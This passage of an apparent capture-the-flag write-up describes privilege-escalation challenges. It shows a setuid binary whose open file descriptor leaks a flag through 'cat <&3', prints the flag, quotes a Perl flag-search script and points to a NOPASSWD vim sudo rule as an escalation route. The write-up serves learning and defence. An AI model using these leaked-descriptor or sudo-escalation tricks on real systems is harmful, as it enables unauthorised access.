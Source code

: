 The compiled binary is likely setuid binary and keeps the file open and opens a new shell via execvp however later drops the privilegd by setting uid to GUID of process but the file was already open before having done so, so we can still access the flags with some file descriptor, 0-5 was open when checking `/proc/self/fd`, 3 fd happened to work.
```
$ ./file_chal
sh: 0: can't access tty; job control turned off
$ cat <&3
PClub{4lw4ys_cl05e_y0ur_fil3s}
```

The second challenge for blog 1 had an empty starting directory for few days, and later had 

```
$ ls -A
.swh  .swi  .swj  .swk  .swl  .swm  .swn  .swo  .swp  find_flag.pl
```

on checking the `find_flag.pl` file, we get

```pl
#!/usr/bin/perl

use strict;
use warnings;

my @swap_files = glob(".sw*");

foreach my $file (@swap_files) {
    open(my $fh, '<:raw', $file) or die "Could not open $file: $!";
    my $content = do { local $/; <$fh> };
    close($fh);

    if ($content =~ /(PClub\{[\w!-~]+\})/a) {
        print "Found flag in $file: $1\n";
        exit;
    }
}

print "Flag not found in any swap files.\n";
```

which acts as grep. After a bit of prodding around, I decided to run

```
$ sudo -l
Matching Defaults entries for ctf on 1d6089cf076a:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User ctf may run the following commands on 1d6089cf076a:
    (ALL) NOPASSWD: /bin/vim
```

implying we have a privesc. However the person before me, seems to have completely messed up the state of the problem, leading me with no further trail even after prodding around.
Later when I retried, the service was down, which I can only assume was due to someone breaking the whole setup by deleting nc, and or other stuff. Containerising the induvidual users might've been a better move by not allowing others to pull the rug under, by exploiting *the CTF*.

